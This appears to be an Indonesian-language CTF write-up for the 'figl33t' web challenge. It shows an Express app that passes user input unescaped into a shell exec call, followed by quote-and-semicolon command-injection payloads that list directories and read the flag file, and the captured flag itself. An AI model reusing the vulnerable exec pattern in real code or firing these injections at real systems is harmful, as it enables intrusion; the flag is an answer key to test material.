 # figl33t
>My friend really likes ascii art. So I created this website for her.
http://103.167.136.89:10056/

1. Buka website dengan alamat yang diberikan
2. Tampilan website akan seperti ini :

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/8c8c013c-7d42-4c40-97be-e3e73f5d1d12)

3. Diberikan sebuah code berupa app.js
```js
const express = require('express');
const bodyParser = require('body-parser');
const exec = require('child_process').exec;
const app = express();

app.use(express.static('public'));
app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.sendFile(`${__dirname}/public/index.html`);
    }
);

app.post('/figlet', (req, res) => {
    let cmd = 'timeout 1 figlet \'' + req.body.text + '\'';
    exec(cmd, (err, stdout, stderr) => {
        if (err) {
            console.log(stderr);
            res.send('Error');
        } else {
            res.send(stdout);
        }
    });
});

app.listen(3000, () => {
    console.log('figl33t listening on port 3000!');
});
```

4. Untuk melakukan bypass, dapat dibaca dari source code. dengan menggunakan tanda ' sebelum ; dan setelah syntax yang ingin digunakan selesai.
5. Kita coba lakukan command injection (dapat dilihat pada source code yaitu kata exec yg menjadi patokan untuk command injection, sedangkan untuk SSTI vulnerability digunakan kata eval)
6. Input syntax '; ls'

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/d641829f-d85d-4a94-9505-ee9f5d84fd61)

didapatkan hasil seperti yang di atas.

7. Lalu gunakan syntax ini '; cd .. && ls' untuk melihat ke directory sebelumnya

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/044997ad-07d7-4791-b9e8-7c3bbe555e4a)

8. Dapat dilihat pada gambar terdapat file
```console
flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt
```
9. Lalu gunakan command cat untuk melihat isi file
```
'; cd .. && ls && cat flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'
```
10. Maka didapatkan 

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/4c592b23-289a-437e-8db6-f6db180e9ca7)

Flag yang didapat :
```console
ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}
```
